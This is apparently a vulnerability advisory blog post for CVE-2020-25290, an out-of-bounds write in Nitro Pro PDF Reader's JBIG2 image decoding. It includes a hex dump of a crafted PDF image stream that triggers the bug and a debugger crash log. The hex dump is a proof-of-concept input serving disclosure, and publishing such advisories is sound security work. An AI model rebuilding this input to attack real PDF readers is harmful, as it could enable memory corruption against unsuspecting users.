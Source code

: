 ```yaml
---
layout: post
title:  "CVE-2020-25290 - Nitro Pro PDF JBIG2 Image Decoders Out-of-Bounds Write Vulnerability"
date:   2020-09-18 21:00:00 +0800
tags:
    - CVE-2020-25290
---
```


Overview
-----------
Nitro Software, Inc. develops commercial software used to create, edit, sign, and secure Portable Document Format files and digital documents. The company has over 650,000 business customers worldwide, and claims millions of users across the globe.

Vulnerability Description
-------------------------
An exploitable out-of-bounds write vulnerability exists in the handling of JBIG2 image decoders of object stream attributes of Nitro Pro PDF Reader version 13.19.2.356. A specially crafted PDF document can trigger an out-of-bounds write, which can disclose sensitive memory content or even write and aid in exploitation when coupled with another vulnerability. An attacker needs to trick the user to open the malicious file to trigger this vulnerability. If the browser plugin extension is enabled, visiting a malicious site can also trigger the vulnerability.

Vulnerability Analysis
----------------------
The out-of-bounds issue exists when JBIG2 fails to handle image decoders of object stream attributes. This happened when it tries to process the following example image stream embedded in PDF. Nitro Pro PDF rely on JBIG2 library to handle images.
```
00000150  20 30 20 6F 62 6A 0A 3C 3C 20 2F 44 65 63 6F 64   0 obj.<< /Decod
00000160  65 50 61 72 6D 73 20 20 3C 3C 20 2F 4A 42 49 47  eParms  << /JBIG
00000170  32 47 6C 6F 62 61 6C 73 20 34 20 30 20 52 20 3E  2Globals 4 0 R >
00000180  3E 0A 2F 57 69 64 74 68 20 33 32 0A 2F 43 6F 6C  >./Width 32./Col
00000190  6F 72 53 70 61 63 65 20 2F 44 65 76 69 63 65 47  orSpace /DeviceG
000001A0  72 61 79 0A 2F 48 65 69 67 68 74 20 33 32 0A 2F  ray./Height 32./
000001B0  46 69 6C 74 65 72 20 2F 4A 42 49 47 32 44 65 63  Filter /JBIG2Dec
000001C0  6F 64 65 0A 2F 53 75 62 74 79 70 65 20 2F 49 6D  ode./Subtype /Im
000001D0  61 67 65 0A 2F 4C 65 6E 67 74 68 20 37 36 0A 2F  age./Length 76./
000001E0  54 79 70 65 20 2F 58 4F 62 6A 65 63 74 0A 2F 42  Type /XObject./B
000001F0  69 74 73 50 65 72 43 6F 6D 70 6F 6E 65 6E 74 20  itsPerComponent 
00000200  31 0A 3E 3E 0A 73 74 72 65 61 6D 0A 00 00 00 01  1.>>.stream.....
00000210  30 00 01 00 00 00 13 00 00 00 20 00 00 00 20 00  0......... ... .
00000220  00 00 47 00 00 00 47 00 00 00 00 00 00 02 06 22  ..G...G........"
00000230  00 01 00 00 00 22 00 00 00 20 00 00 00 20 00 00  ....."... ... ..
00000240  00 00 00 00 00 00 00 00 00 00 00 00 04 9E E8 54  .............žèT
00000250  EC DF EB 09 4E 93 41 AC 0A 65 6E 64 73 74 72 65  ìßë.N“A¬.endstre
00000260  61 6D 0A 65 6E 64 6F 62 6A 0A 0A 36 20 30 20 6F  am.endobj..6 0 o
```

An access violation occured when parsing the PDF:
```
(90b4.8ba0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
npdf!CAPContent::Wrap+0xa041d:
00007ffc`303486fd 204c28ff        and     byte ptr [rax+rbp-1],cl ds:ffffffff`ffffffff=??

0:000>r
rax=0000000000000000 rbx=0000025593320d10 rcx=00000000000000ff
rdx=00007ff81ea90460 rsi=0000005894ff7c50 rdi=0000000000000000
rip=00007ff81e73c17d rsp=0000005894ff7b60 rbp=0000000000000000
 r8=0000000000000000  r9=0000005894ff7b70 r10=0000000000000000
r11=0000000000000000 r12=0000000000000000 r13=000000000000003d
```